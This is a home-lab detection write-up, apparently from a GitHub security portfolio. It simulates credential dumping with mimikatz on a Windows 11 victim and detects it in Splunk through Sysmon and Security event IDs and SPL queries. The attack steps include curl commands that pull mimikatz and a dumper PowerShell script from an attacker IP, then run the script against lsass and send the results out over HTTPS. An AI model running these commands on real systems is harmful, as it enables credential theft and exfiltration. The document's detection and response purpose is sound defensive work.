

# Detection Usecase 5 : Credential Dumping and Exfiltration


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a mimikatz and a suspicious ps1 file,  
then executed the ps1 file which attempt to access lsass.exe process and exfiltrate the data and send to attacker system using HTTPS.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and downloaded mimikatz along with a Powershell Script.  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/mimikatz.exe -o mimikatz.exe
```
```
curl http://192.168.0.106/dumper.ps1 -o 
```
2) Then executed the following command to capture a lsass data which contain sensitive passwords.  
```
powershell .\dumper.ps1
``` 
3) Now Attacker has started a Manually created https server using python script and received the file which contain mimikatz output.  
```
python3 [server.py](<scripts/server.py>)
```  



 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, Python Scripts, Mimikatz.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon, Wireshark, Snort


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Security    | 4672      | Special Privilege assigned       |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Security    | 5156      | Permitted a Connection           |
| WinEventLog : Sysmon      | 11        | File Creation                    |
| WinEventLog : Security    | 4656      | Object was requested             |
| WinEventLog : Security    | 4663      | Attempt to access an Object      |
| WinEventLog : Security    | 4634      | Account logged off               |


 ******************************
 ******************************

# Detection Query / Logic:

```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 OR EventCode=4672 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11 OR EventCode=5156
```
```spl 
- Search - Lsass.exe dumping
index=* Object_Name=*lsass.exe" Process_Name="*mimikatz.exe" | table _time_, EventCode, Account_Name, Account_Domain, Accesses
```
```spl 
- Search - HTTPS Connection
index=* EventCode=3 DestinationIp="192.168.0.106" | stats count by _time, SourceIp, DestinationIp, DestinationPort, EventCode, _time
```

 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

  
  
 

2) Then attempted to download mimikatz and a ps1 file.  

  
  
  

  
  


3) Then Enter PowerShell and executed the ps1 file.    

  
  

4) The mimikatz attempt to access the Lsass.exe Process.   

  


5) Then a HTTPS connection was attempted by sshuser to send data to attacker system.  


 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Situation like Credentials Dumping Using Mimikatz, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Sysmon EventId=1(Downloading Of mimikatz), EventCode=11(File Creation)EventCode=4663 or 4656(Access to lsass.exe Process)) and try to correlate it with unexpected login or unusual user behavior.  
    -> Isolate the system and stop malicious processes running and disable the user account and Block the IP.  
    -> Check for any Lateral Movement activity(e.g.,Registry Modification(4657), Scheduled Tasks(4698) or Service Creation(4697)).  
    -> Secure the Lsass Process using RunAsPPL, Credential Guard, Disable Wdigest(no plaintext passwords) and Monitor lsass access by creating alerts.  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
